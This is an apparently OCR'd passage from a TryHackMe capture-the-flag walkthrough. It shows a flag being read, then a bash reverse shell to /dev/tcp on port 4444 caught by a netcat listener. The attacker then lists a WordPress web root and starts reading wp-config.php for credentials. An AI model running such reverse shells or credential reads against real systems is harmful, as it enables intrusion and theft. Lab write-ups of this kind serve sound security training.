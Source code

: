 Shell> cat 650c844110baced87e1606453b93f22a.txt
 
THM{fl46_650c844110baced87e1606453b93f22a}

Shell> bash -c 'exec bash -i &> /dev/tcp/10.4.124.126/4444 <&1'


└─$ nc -nvlp 4444                            
listening on [any] 4444 ...
connect to [10.4.124.126] from (UNKNOWN) [10.10.215.136] 46190
bash: cannot set terminal process group (1257): Inappropriate ioctl for device
bash: no job control in this shell
apache@tryhackme:/data/www/default$ ls
ls
650c844110baced87e1606453b93f22a.txt
index.php
kod
license.txt
phpmyadmin
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
apache@tryhackme:/data/www/default$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */
